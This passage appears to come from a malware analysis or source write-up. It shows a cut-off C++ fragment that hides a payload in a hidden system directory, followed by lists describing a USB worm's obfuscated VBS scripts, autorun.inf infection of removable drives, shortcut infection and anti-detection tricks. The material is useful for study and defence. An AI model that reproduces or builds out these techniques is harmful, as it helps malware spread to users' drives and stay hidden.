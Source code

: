 ```cpp
        CreateDirectoryA(hidden_dir, NULL);
        SetFileAttributesA(hidden_dir, FILE_ATTRIBUTE_HIDDEN | 
                                    FILE_ATTRIBUTE_SYSTEM | 
                                    FILE_ATTRIBUTE_READONLY);
    }

    // Copy and hide payload
    if (!PathFileExists(payload_path)) {
        CopyFileA(original_payload, payload_path, FALSE);
        SetFileAttributesA(payload_path, FILE_ATTRIBUTE_HIDDEN | 
                                      FILE_ATTRIBUTE_SYSTEM | 
                                      FILE_ATTRIBUTE_READONLY);
    }

    return 1;
}
```

**Infection Techniques**:
1. **VBS Script Creation**:
   - Creates heavily obfuscated VBS scripts
   - Uses random variable names and values for anti-analysis
   - Implements WScript.Shell for command execution
   - Includes file system operations for persistence

2. **Autorun Infection**:
   - Creates autorun.inf for removable drive infection
   - Uses system icons to appear legitimate
   - Configures automatic execution of payload
   - Implements UseAutoPlay for broader infection scope

3. **File System Manipulation**:
   - Creates hidden directories for payload storage
   - Copies malware payload with hidden attributes
   - Manages file attributes for stealth
   - Implements shortcut-based infection

**Anti-Detection Features**:
- Random variable names and values in VBS scripts
- System file attribute manipulation
- Hidden directory creation
- Legitimate system icon usage
- Obfuscated script content
- Multiple layers of execution

**Malware Capabilities**:
- Removable drive infection
- System directory infection
- Persistence through VBS scripts
- Automated payload execution
- Social engineering through shortcuts
- System-wide propagation
